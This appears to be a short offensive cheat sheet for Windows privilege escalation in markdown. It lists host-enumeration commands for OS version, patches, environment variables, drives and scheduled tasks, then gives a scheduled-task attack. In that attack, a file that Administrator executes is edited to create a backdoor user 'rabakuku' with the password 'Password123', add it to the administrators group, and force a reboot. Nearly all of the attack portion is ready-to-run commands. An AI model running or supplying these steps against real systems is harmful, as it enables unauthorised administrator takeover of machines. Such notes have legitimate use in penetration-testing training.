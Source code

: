 ## Windows Version and Configuration

After getting All the Information u need, u can search for exploits

```bash
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### Extract patchs and updates

```bash
wmic qfe
```

### Architecture

```bash
wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
```

### List all env variables

```bash
set
Get-ChildItem Env: | ft Key,Value
```

### List all drives

```bash
wmic logicaldisk get caption || fsutil fsinfo drives
wmic logicaldisk get caption,description,providername
Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root
```

## Schedule Task Privilege Escalation

```bash
# Run from CMD:
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

# Manually Search
schtasks /query /fo LIST 2>nul | findstr TaskName
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
schtasks /query /fo LIST /v > C:\Users\student1\Desktop\task.txt

# Edit the file executed by Administrator
net user /add rabakuku Password123
net localgroup administrators rabakuku /add

# reboot
shutdown /r /f
```
